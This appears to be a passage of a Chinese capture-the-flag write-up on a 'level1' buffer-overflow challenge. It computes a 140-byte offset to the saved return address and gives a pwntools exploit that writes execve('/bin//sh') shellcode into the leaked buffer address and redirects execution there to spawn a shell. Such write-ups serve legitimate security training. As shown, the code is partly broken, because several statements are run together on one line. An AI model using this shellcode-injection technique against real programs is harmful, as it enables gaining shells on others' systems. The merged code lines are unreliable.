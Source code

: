 - 同 level0,找到溢出点的位置。容易计算出PC返回值的覆盖点为140个字节。我们只要构造一个”A”*140+ret字符串，就可以让pc执行ret地址上的代码了。
- shellcode起始地址在哪呢？shellcode是通过输入buf的时候写入的，所以就是buf的地址，而buf的地址会在程序运行过程中给出.
- 此时shellcode的地址，溢出点和返回地址都有了，我们可以写出下面的exp：

```python
from pwn import *
p = process("./level1") 
s = p.readline() 
padding = 0x88+4
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73" shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0" 
shellcode += "\x0b\xcd\x80"
addr = p32(int(s[len("What's this:"):-2],16))
payload = shellcode payload += 'A'*(padding-len(shellcode)) 
payload += addr
p.send(payload)
p.interactive() 
```


